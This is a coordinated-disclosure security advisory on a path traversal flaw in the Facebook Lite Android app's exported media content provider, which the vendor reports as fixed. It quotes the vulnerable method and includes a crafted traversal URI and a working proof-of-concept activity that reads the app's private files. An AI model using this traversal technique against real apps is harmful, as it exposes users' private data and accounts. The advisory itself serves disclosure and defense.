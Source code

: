 
# Vulnerability in Facebook Lite app for Android


## 1. Advisory Information

**Title:** Vulnerability in Facebook Lite app for Android

**Advisory ID:** STIC-2015-2012

**Advisory URL:** [http://www.fundacionsadosky.org.ar/publicaciones-2](http://www.fundacionsadosky.org.ar/publicaciones-2)

**Date published:** 2016-29-1

**Date of last update:** 2016-1-26

**Vendors contacted:** Facebook

**Release mode:** Coordinated release



## 2. Vulnerability Information

**Class:**  Improper Limitation of a Pathname to a Restricted Directory [[http://cwe.mitre.org/data/definitions/22.html](http://cwe.mitre.org/data/definitions/22.html)]

**Impact:** Data loss

**Remotely Exploitable:** No

**Locally Exploitable:** Yes

**CVE Identifier:** N/A



## 3. Vulnerability Description

Facebook Lite is a lighter Android version of the Facebook's social network app. The app is designed specifically for use in countries where the wireless networks are slow or to install on older devices that are not able to support all of the original Facebook version.

Facebook Lite has around 50 to 100 milli  ons downloads (as of January 2016). The app has a Path traversal vulnerability that allows other apps to access any files in the application's internal storage. This could allow a malicious application, without any required permissions, to take control of the victim device's Facebook account .


## 4. Vulnerable packages

* Facebook Lite version 1.15.0.137.302 or older

## 5. Vendor Information, Solutions and Workarounds

Facebook acknowledged and fixed the vulnerability in the app version 1.15.0.137.302, released on January 28, 2016.


## 6. Credits

This vulnerability was discovered and researched by Joaquín Manuel Rinaudo. The publication of this advisory was coordinated by Programa Seguridad en TIC. 

## 7. Technical Description

Facebook Lite application has an exported provider named MediaContentProvider. This provider is vulnerable to a Path Traversal vulnerability. While calling ContentProvider openFile method the app obtain the last path segment directly from the URI which is controlled by an attacker and can be pointed to an encoded relative path to any file. 

The following vulnerable method is from _com.facebook.lite.photo.MediaContentProvider_ class.

```
    public ParcelFileDescriptor openFile(Uri r5_Uri, String r6_String) {
        new StringBuilder("photo/called with uri: ").append(r5_Uri);
        if (this.a.match(r5_Uri) == 1) {
            File r0_File = new File(getContext().getFilesDir(), r5_Uri.getLastPathSegment());
            if (!r0_File.exists()) {
                try {
                    r0_File.createNewFile();
                } catch (IOException e) {
                    Log.e("MediaContentProvider", "photo/create new file failed", e);
                }
            }
            return ParcelFileDescriptor.open(r0_File, 805306368);
        } else {
            new StringBuilder("photo/unsupported uri: ").append(r5_Uri);
            throw new FileNotFoundException(new StringBuilder("Unsupported uri: ").append(r5_Uri.toString()).toString());
        }
    }


```


For example, when an attacker requests access to the URI _content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml_, the last path segment would translate to _../shared_prefs/rti.mqtt.ids.xml_. This would allow that file, that is stored in the application internal storage, to be read by a malicious application. 


The provided POC shows how any application can read a Facebook Lite internal file:

```
  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    Uri uriCustom = Uri
        .parse("content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml");
    InputStream fileStream;
    try {
      fileStream = getContentResolver().openInputStream(uriCustom);

      BufferedReader r = new BufferedReader(new InputStreamReader(
          fileStream));
      StringBuilder total = new StringBuilder();
      String line;
      while ((line = r.readLine()) != null) {
        total.append(line);
      }

      fileStream.close();
      Log.d("DEBUG", "string is " + total.toString());
    TextView text = (TextView)findViewById(R.id.file_content);
    text.setText(total);
    } catch (Exception e) {
      Log.d("DEBUG", Log.getStackTraceString(e));
    }
  }



```


## 8. Report Timeline

* **2015-11-20:** 
        Technical details of the vulnerabilities sent to the vendor.
        
* **2015-11-25:** 
        The vendor acknowledged to have received the report and sent it to the appropriate product team.
        
* **2015-12-3:**  asked for an status update on the issue.
        
* **2016-01-4:** 
        Having received no response,  asked for an estimated time of release for the fix.
        
* **2016-01-25:** 
        The vendor assured that a fix was ready and that they were working to get it deployed.
        
* **2016-01-26:** 
        The vendor notified that the app would be updated that week with the patch.
        
* **2016-29-1:** 
        Advisory was released. 

## 9. References



## 10. About Fundación Dr. Manuel Sadosky

The Dr. Manuel Sadosky Foundation is a mixed (public / private) institution whose goal is to promote stronger and closer interaction between industry and the scientific-technological system in all aspects related to Information and Communications Technology (ICT). The Foundation was formally created by a Presidential Decree in 2009. Its Chairman is the Minister of Science, Technology, and Productive Innovation of Argentina; and the Vice-chairmen are the chairmen of the country’s most important ICT chambers: The Software and Computer Services Chamber (CESSI) and the Argentine Computing and Telecommunications Chamber (CICOMRA). For more information visit: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Copyright Notice

The contents of this advisory are copyright (c) 2014 Fundación Sadosky and are licensed under a Creative Commons Attribution Non-Commercial Share-Alike 4.0 License: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)
